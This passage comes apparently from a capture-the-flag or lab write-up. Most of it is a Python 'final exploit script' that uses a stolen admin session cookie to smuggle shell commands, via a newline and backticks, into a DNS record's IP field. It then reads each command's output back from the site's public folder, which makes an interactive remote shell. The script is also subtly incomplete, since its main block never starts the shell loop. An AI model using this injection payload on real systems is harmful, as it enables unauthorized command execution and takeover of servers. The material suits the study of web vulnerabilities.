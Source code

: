 Usually they're stored in the `public/` folder. Running our script with 
`ls public/` returns us the file we wanted. So lets output our results into 
the public folder and also make the program interactive. 

After refactoring and cleaning up this is the final exploit script.

```python
#!/usr/bin/env python3

import sys
import bs4
import requests

OUTPUT_FILE = '.keep'
OUTPUT_PATH = '/var/www/public/'
URL = 'http://localhost:8000/' 

def inject_command(cookie, command):

    admin_cookie = { 'rack.session' : cookie }

    output = OUTPUT_PATH + OUTPUT_FILE

    payload = { 'id'   : '1'
              , 'name' : 'webmail'
              , 'ip'   : f'192.168.3.10\n`{command} > {output}`'
              , 'ttl'  : '600'
              }

    resp = requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    # Undo update
    payload['ip'] = '192.168.3.10'
    requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    return resp

def get_result():
    return requests.get(URL + OUTPUT_FILE).text

def run_shell(cookie):
    while(True):
        cmd = input("cmd> ")

        resp = inject_command(cookie, cmd)

        soup = bs4.BeautifulSoup(resp.text, 'html.parser')

        if '\nInvalid data provided' in soup.find('div', {"class": "alert-message error"}):
            print("( ERROR ): Failed to process command")
        else:
            print(get_result())

def help():
    print(__doc__, file=sys.stderr)
    exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()

    command = ' '.join(sys.argv[2:])

    with open(sys.argv[1]) as file:
        cookie = file.read().rstrip()
```